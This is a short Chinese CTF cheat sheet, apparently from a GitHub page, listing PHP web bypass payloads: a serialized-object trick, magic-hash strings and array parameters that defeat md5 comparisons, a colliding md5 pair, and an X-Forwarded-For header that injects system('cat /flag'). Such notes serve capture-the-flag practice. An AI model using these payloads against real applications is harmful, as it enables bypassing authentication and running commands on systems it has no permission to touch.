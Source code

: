 ## 反序列化禁止数字

添加+号

```
O:+4:"xctf":2:{s:4:"flag";s:3:"111";}
```



## md5对比

弱对比(使用 `==` 判断)可以直接用md5碰撞，以下为常见的md5碰撞字符串,都是以0e开头

```
QNKCDZO
0e830400451993494058024219903391
240610708
0e462097431906509019562988736854
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
```

强对比(使用`===`)判断

在`===`下就不可以使用md5碰撞这一方法了，但是可以使用列表的方法使其报错，假如是GET传参

```
index.php?a[]=1&b[]=2
```

函数在处理到列表的时候会出错，返回`null`，两个字符串的加密对比都是null则会相同

如果对比过于强，比如使用了string来强制格式，可以使用如下两个参数(暂不知原理)

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

## X-forwarded-for

可以通过此字段执行命令

```
X-Forwarded-For:{system('cat /flag')}
```

## nmap命令执行
